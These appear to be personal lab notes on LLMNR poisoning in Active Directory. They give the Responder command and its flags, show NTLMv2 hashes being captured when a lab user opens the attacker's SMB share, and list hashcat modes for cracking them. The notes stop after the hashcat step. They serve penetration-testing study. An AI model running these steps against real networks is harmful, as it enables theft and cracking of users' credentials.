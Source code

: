 #llmnrpoisoining
#linklocalmulticastnameresolution

# LLMNR Poisoning

- Used to identify hosts when DNS failed to do so
- Previously NBT-NS
- The key flaw is that the service utilizes a user's username and NTLMv2 hash when appropriately responding to
- Previously known as MBTNS (for older networks)
- Can capture username and hash using MITM
- respond to traffic
- shared folder (LLMNR enabled)
- can attack early morning/after lunch
- enabled by default in a network
![[Pasted image 20240711192802.png]]
#ADattackllmnrcommand
Command to be executed in kali: `sudo responder  -I eth0 -dwPv`
where:
I - interface (VPN,tun0) (eth0 if network)
d- DHCP/DNS (listening to DHCP broadcast request)
w- wpad
P - ProxyAuth
v - verbose
it senses traffic and grabs the hash
We will see hash come through 
take the hash and use `hashcat` to crack it

#respondertool
If you execute `sudo responder --help`, you will get to know several options

Make sure the following (e.g http, SMB) are "ON" but by default, they must be "ON"

![[Pasted image 20240711195044.png]]

As see here, its listening DHCP events

![[Pasted image 20240711195155.png]]

- Sign In to Punisher machine using fcastle while the kali reposnder is "ON"
- Access the attacker's machine in the file explorer using `\\192.168.64.4`
- While accessing the attacker's machine using SMB, we were able to capture the hash
Image of the Punisher's machine while accessing `\\192.168.64.4`

![[Pasted image 20240711195727.png]]

Image of the kali machine while the responder is "ON". 

![[Pasted image 20240711195645.png]]

- Use hashcat to identify the module `hashcat --help | grep NTLM`
```
┌──(root㉿kali)-[~]
└─# hashcat --help | grep NTLM
   5500 | NetNTLMv1 / NetNTLMv1+ESS                                  | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                             | Network Protocol
   5600 | NetNTLMv2                                                  | Network Protocol
  27100 | NetNTLMv2 (NT)                                             | Network Protocol
   1000 | NTLM                                                       | Operating System
                                                             
```

Search hashcat modules
